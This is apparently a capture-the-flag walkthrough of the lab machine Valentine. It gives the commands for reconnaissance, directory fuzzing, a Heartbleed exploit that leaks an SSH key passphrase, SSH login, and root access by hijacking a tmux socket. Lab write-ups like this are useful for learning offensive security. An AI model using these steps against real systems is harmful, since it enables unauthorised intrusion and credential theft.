

# Valentine

# Recon

`nmap -sCV -T4 -A -oN nmap 10.10.10.79`

Strange version for SSH, add the valentine.htb to hosts file

`echo -e '10.10.10.79\tvalentine.htb' >> /etc/hosts`

## Web

### Directory Discovery

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://valentine.htb/FUZZ](http://valentine.htb/FUZZ) -fl 2`

**Dev Directory**

`Note.txt`

Decode the `hype_key` from Hexadecimal

Save it to a file

### Exploiting

After some time searching found that its vulnerable to `heartbleed` and when the exploit completed found some string

`python2 32745.py 10.10.10.79`

Decoding the string

`heartbleedbelievethehype`

SSH Into the machine using the key, if you didn’t change the permissions of your key do this command

`chmod 600 hype_key`

Connect using the key and the passfrase

`ssh -i hype_key hype@valentine.htb`

In my case i had some error on the ssh so i had to put that entire command

`ssh -o PubKeyAcceptedKeyTypes=ssh-rsa -i hype_key hype@valentine.htb`

## Privilege Escalation

### TMUX

On our history we find this `tmux` command

And found this article on hacktricks

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#tmux-sessions-hijacking](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#tmux-sessions-hijacking)

Lets check if its running on the background

`ps aux | grep tmux`

List it

`tmux -S /.devs/dev_sess ls`

We can verify that we have some permissions inside the socket

By doing this command we get root access it attaches using a non-default tmux socket

`tmux -S /tmp/dev_sess attach -t 0`

